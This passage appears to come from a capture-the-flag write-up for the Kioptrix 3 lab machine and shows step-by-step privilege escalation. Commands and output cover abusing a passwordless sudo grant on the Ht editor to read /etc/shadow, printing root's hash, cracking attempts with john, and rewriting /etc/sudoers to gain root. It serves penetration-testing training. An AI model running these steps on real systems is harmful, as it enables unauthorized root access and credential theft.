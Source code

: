 Checking sudo permissions, the user does indeed have sudo access to Ht. Ht is a file/hex editor, and since we have root access to it with no password I can use it to modify files on the system as root.
```bash
loneferret@Kioptrix3:~$ sudo -l         
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
```
So one thing I can try is checking out the shadow file.
```bash
loneferret@Kioptrix3:~$ sudo ht /etc/shadow
Error opening terminal: xterm-256color.
loneferret@Kioptrix3:~$ export TERM=xterm  
loneferret@Kioptrix3:~$ sudo ht /etc/shadow
```
This opens the file, and I can get root's hash/salt:
```
root:$1$QAKvVJey$6rRkAMGKq1u62yfDaenUr1:15082:0:99999:7:::
```

### 6. Try to crack root hash
```bash
kali@kali:~/Desktop/osc/kiol3$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt root.hash 
[sudo] password for kali: 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:02:59 DONE (2020-10-28 03:57) 0g/s 78766p/s 78766c/s 78766C/s  ejngyhga007..*7¡Vamos!
Session completed
kali@kali:~/Desktop/osc/kiol3$ sudo john --show root.hash 
0 password hashes cracked, 1 left
```
Unfortunately it doesn't crack with rockyou. I take this to mean it is a dead-end. Luckily the ability to edit any file on the system means there are plenty of other things to try.

### 7. Escalate to root
One thing that should definately work is editing the sudoer file to allow the user to switch to root.
```bash
loneferret@Kioptrix3:~$ sudo ht /etc/sudoers
```
I then modify the sudoers line for loneferret to read NOPASSWD:ALL.  
Note: Using Ht was a nightmare. The documentation online is very poor. By purely trial and error, I found the find/replace function mapped to Ctrl+E, and the Save function mapped to F10.
```bash
loneferret@Kioptrix3:~$ sudo ht /etc/sudoers
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: ALL
```
Then I can escalate my permissions to root.
```bash
loneferret@Kioptrix3:~$ sudo -s
root@Kioptrix3:~# whoami
root
```
